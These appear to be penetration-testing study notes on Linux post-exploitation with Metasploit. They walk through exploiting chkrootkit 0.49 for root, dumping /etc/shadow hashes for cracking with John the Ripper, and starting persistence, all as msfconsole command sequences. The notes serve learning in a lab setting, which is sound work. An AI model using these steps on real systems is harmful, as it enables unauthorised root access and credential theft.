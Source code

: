     > ==now we want to list all process on system to try identify any proccess or script related to root==
    
    - `ps aux` ⇒ to list process
    - ==_as example_== we found a bash script related to root ⇒ `cat /bin/chkrootit/check-dump`
    
    > so the script have a while loop , to execute ==_chkrootkit evrey 60 seconed_==
    
    - `chkrootkit -v` ⇒ version (0.49) which is vuln to priv esclaction
    - `ctrl + z` && `search chkrootkit` && `use exploit/unix/local/chkrootkit`
    - `set chkrootkit <path of script file (/bin/chkrootit/) >` && `set session <session number>` && `set lhost` && `set lport` && `run`
    
    > ==_that will creat a cron jobs and run chkrootkit via cron to get a privs escla_==
    
    - `/bin/bash -i` ⇒ we will see that we get a privis esclat
    
      
    
      
    

  

  

- ==_Dumping Hashes With Hashdump_==

> hashdump module can dump the hashs on /etc/shadow , and unshadow the hashes for password cracking using john the ripper

- ==_Dumping Hashes With Hashdump_==
    
    - `service postgersql start` && `msfconsole` && `workspace -a linux_mod` ==_( to easy search for evrey yhing using loot )_==
    - `db_nmap -sS -sV -O <targrt ip >` ⇒ to do some port scanning ti identify what services are running
    - After we exploit the services and get a meterpreter session we need root
    - if wwe have a shell session ⇒ `session -u <session number >` (to upgrade it to meterpreter session )
    - `search hashdump` && `use post/linux/gather/hashdump`
        - `set session <session number >` && `run`
    - `loot` && `see the files`
    

  

- ==_Establishing Persistence On Linux_==

> As we know the persistence help us to keep access to the system even if the system restart , changed password ….etc

- ==_Establishing Persistence On Linux_==
    
    - `service postgersql start` && `msfconsole` && `workspace -a linux_mod` ==_( to easy search for evrey yhing using loot )_==
    - `db_nmap -sS -sV -O <targrt ip >` ⇒ to do some port scanning ti identify what services are running
    - After we exploit the services and get a meterpreter session ==_we need root_==
    - if wwe have a shell session ⇒ `session -u <session number >` (to upgrade it to meterpreter session )
    
    > this will be work just if we have a ssh or remote access control
    